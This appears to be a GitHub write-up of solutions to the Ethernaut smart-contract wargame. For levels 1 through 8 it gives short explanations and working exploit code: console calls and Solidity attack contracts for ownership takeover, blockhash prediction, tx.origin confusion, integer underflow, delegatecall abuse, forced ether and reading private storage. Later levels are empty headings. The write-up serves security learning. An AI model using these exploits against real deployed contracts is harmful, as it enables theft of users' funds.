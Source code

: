# Ethernaut solution

## 1. Fallback
Abusing erroneous logic between contract functions and fallback function.
```
await contract.contribute({value: 1234});
await contract.sendTransaction({value: 1234});
await contract.withdraw();
```

## 2. Fallout
Constructor is spelled wrongly so it becomes a regular function. In any case, you can't use the contract name as a constructor in solidity 0.5.0 and above.
```
await contract.Fal1out({value: 1234});
await contract.sendAllocation(await contract.owner());
```

## 3. Coinflip
Don't rely on block number for any validation logic. A malicious user can calculate the solution to bypass your validation if both txns in the same block i.e. wrapped in the same function call.

Note: For some reason, I can't seem to call these functions more than once in the same function call i.e. another function that calls one of these malicious functions multiple times in one function call.
``` 
pragma solidity ^0.6.0;
import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract AttackCoinFlip {
    using SafeMath for uint;
    
    address public targetContract;
    
    constructor(address _targetContract) public {
        targetContract = _targetContract;
    }
    
    function attackFlipWithContract() public{
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(57896044618658097711785492504343953926634992332820282019728792003956564819968);
        bool side = coinFlip == 1 ? true : false;
        CoinFlip(targetContract).flip(side);
    }
    
    function attackFlipWithout() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(57896044618658097711785492504343953926634992332820282019728792003956564819968);
        bytes memory payload = abi.encodeWithSignature("flip(bool)", coinFlip == 1 ? true : false);
        (bool success, ) = targetContract.call(payload);
        require(success, "Transaction call using encodeWithSignature is successful");
    }
}
```

## 4. Telephone
When you call a contract (A) function from within another contract (B), the msg.sender is the address of B, not the account that you initiated the function from which is tx.origin.
```
pragma solidity ^0.6.0;
contract AttackTelephone {
    address public telephone;
    
    constructor(address _telephone) public {
        telephone = _telephone;
    }
    
    function changeBadOwner(address badOwner) public {
        bytes memory payload = abi.encodeWithSignature("changeOwner(address)", badOwner);
        (bool success, ) = telephone.call(payload);
        require(success, "Transaction call using encodeWithSignature is successful");
    }
}
```

## 5. Token
No integer over/underflow protection. Always use [safemath](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/math/SafeMath.sol) libraries. As long as you pass a value > 20, the condition in the first require statement will underflow and it will always pass. 
```
await contract.transfer(instance, 25)
```

## 6. Delegation
DelegateCall means you take the implementation logic of the function in the contract you're making this call to but using the storage of the calling contract. Since msg.sender, msg.data, msg.value are all preserved when performing a DelegateCall, you just needed to pass in a malicious msg.data i.e. the encoded payload of `pwn()` function to gain ownership of the `Delegation` contract.
```
let payload = web3.eth.abi.encodeFunctionSignature({
    name: 'pwn',
    type: 'function',
    inputs: []
});

await contract.sendTransaction({
    data: payload
});
```

## 7. Force
You can easily forcibly send ether to a contract. Read [this](https://consensys.github.io/smart-contract-best-practices/known_attacks/#forcibly-sending-ether-to-a-contract) to learn more.
```
pragma solidity ^0.6.0;

contract AttackForce {
    
    constructor(address payable _victim) public payable {
        selfdestruct(_victim);
    }
}
```

## 8. Vault
EVM storage is 2^256 slots of 32 bytes, values are stored sequentially from the right. see Nicole Zhu
```
Solution:
let pw = await web3.eth.getStorageAt(instance, 0);
await contract.unlock(pw);
```
## 9. King

## 10. Re-entrancy

## 11. Elevator


## 12. Privacy


## 13. Gatekeeper One

## 14. Gatekeeper Two

## 15. Naught Coin


## 16. Preservation

## 17. Recovery

## 18. MagicNumber

## 19. AlienCodex

## 20. Denial


## 21. Shop

